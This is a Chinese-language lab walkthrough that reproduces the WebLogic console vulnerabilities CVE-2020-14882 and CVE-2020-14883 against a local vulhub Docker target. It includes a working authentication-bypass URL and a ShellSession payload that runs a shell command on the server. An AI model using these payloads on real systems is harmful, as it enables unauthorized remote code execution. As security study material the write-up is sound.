








# Weblogic管理控制台未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）

## 漏洞原理

Oracle WebLogic Server 远程代码执行漏洞 （CVE-2020-14882）POC 被公开,未经身份验证的远程攻击者可能通过构造特殊的 HTTP GET请求，利用该漏洞在受影响的 WebLogic Server 上执行任意代码。它们均存在于WebLogic的Console控制台组件中。此组件为WebLogic全版本默认自带组件，且该漏洞通过HTTP协议进行利用。将CVE-2020-14882和CVE-2020-14883进行组合利用后，远程且未经授权的攻击者可以直接在服务端执行任意代码，获取系统权限

## 影响版本

Oracle WebLogic Server，版本10.3.6.0，12.1.3.0，12.2.1.3，12.2.1.4，14.1.1.0

## 复现机器版本

攻击机：Ubuntu18.04

靶机：Ubuntu18.04 Docker version 20.10.10

## 漏洞复现

### 准备阶段 

#### 进入靶场，启动服务

```
cd /home/radiuscircle/vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```



#### 信息收集

查看端口

```
docker ps
```



使用nmap工具进行对网站服务的端口扫描

```
nmap -sS -Pn 192.168.177.128
```



可看到目标主机开启了7001端口

### 漏洞利用

直接访问URL



拼接/console后，发现后台登录页面

```
http://192.168.177.128:7001/console/
```



首先通过CVE-2020-14882的权限绕过漏洞，未授权访问后台管理页面，通过以下URL访问

```
http://192.168.177.128:7001/console/css/%252e%252e%252fconsole.portal
```

成功绕过权限



然后复现第二个漏洞 CVE-2020-14883，这个漏洞的利用方式有两种，一是通过`com.tangosol.coherence.mvel2.sh.ShellSession`，另一个是通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`，条件有限，仅演示第一种

构造payload

```
http://192.168.177.128:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27touch%20/tmp/success1%27);%22)
```

该payload会在镜像容器里tmp文件夹下创建一个success1文件（本质上就是执行了exec括号里的命令）



进入docker容器查看

```
docker exec -it 06f218ae2672 /bin/bash
```



成功执行了命令创建了success1文件

### 关闭容器

```
docker-compose down
```

